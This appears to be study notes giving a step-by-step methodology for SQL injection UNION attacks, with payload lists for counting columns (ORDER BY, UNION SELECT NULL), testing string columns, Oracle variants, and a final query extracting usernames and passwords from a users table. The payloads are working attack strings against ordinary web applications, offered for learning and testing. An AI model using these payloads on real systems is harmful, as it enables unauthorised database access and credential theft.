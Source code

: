 # Methodology for SQL injection UNION attacks
#UNION 

## 1. Determine the number of columns of the result set 

Test using the following methods:

### ORDER BY testing
Look for errors, generally when the column index is exceeded.

```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

### UNION SELECT testing

Look for affirmative responses depending on the number of `NULL` present on the query.
```SQL
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL--
```

### For Oracle database use the following payload
It's necessary to always select from a table, use the built-in `dual` table.

```SQL
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL,NULL FROM dual--
' UNION SELECT NULL,NULL,NULL FROM dual--
```

## 2. Determine which columns of the result set can hold string data

Use the following payload  checking the application's response to get information form errors about the data type or if it prompts no errors it indicates the column can hold string data.

(depending on the number of columns. In this example 4)
```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

### For Oracle database use the following payload

```SQL
' UNION SELECT 'a',NULL FROM dual--
' UNION SELECT NULL,'a' FROM dual--
```

## 3. Extract data

Depending on the application's logic and the enumeration of the database once the vulnerability is found, retrieve sensitive data from the database tables, for example:

```SQL
' UNION SELECT NULL,username || '~' || password FROM users--
```
